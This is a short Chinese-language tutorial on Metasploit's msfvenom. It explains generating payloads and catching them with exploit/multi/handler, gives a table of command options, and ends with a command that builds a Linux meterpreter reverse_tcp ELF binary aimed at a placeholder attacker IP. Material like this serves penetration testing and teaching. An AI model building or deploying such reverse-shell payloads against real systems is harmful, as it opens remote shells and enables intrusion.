 ## 简介

msfvenom模块通常是Metasploit最有用的功能(对于初学者而言被低估了)。可以使用此模块创建多个有效负载,它可以在几乎任何情况下为您提供可以成为Shell的东西。对于每个有效负载,您都可以进入msfconsole并选择exploit / multi / handler。为使用的相关有效负载运行“set payload”,并配置所有必要的选项(lhost,lport等)。执行并等待有效负载运行。对于下面的示例,它很容易说明,但是lhost应该使用您的IP地址(如果在内网进行攻击,则为LAN IP；如果通过Internet进行攻击,则为WAN IP),而lport应该是您希望进行连接的端口。

## 用法

### 选项

|options                                                        |说明
|---------------------------------------------------------------|--------------------------------
|-p                                                             |指定需要使用的payload(攻击荷载)
|-l                                                             |列出指定模块的所有可用资源,模块类型包括:payloads,encoders,nops,all
|-n                                                             |为payload预先指定一个NOP滑动长度
|-f                                                             |指定输出格式
|–help-formats                                                  |查看msf支持的输出格式列表
|-e                                                             |指定需要使用的encoder(编码器)
|-a                                                             |指定payload的目标架构
|--platform                                                     |指定payload的目标平台
|-s                                                             |设定有效攻击荷载的最大长度
|-b                                                             |设定规避字符集
|-i                                                             |指定payload的编码次数
|-c                                                             |指定一个附加的win32 shellcode文件
|-x                                                             |指定一个自定义的可执行文件作为模板
|-k                                                             |保护模板程序的动作,注入的payload作为一个新的进程运行
|–payload-options                                               |列举payload的标准选项
|-o                                                             |保存payload
|-v                                                             |指定一个自定义的变量,以确定输出格式
|–shellest                                                      |最小化生成payload
|-h                                                             |查看帮助选项


### binaries

#### linux

msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f elf > shell.elf
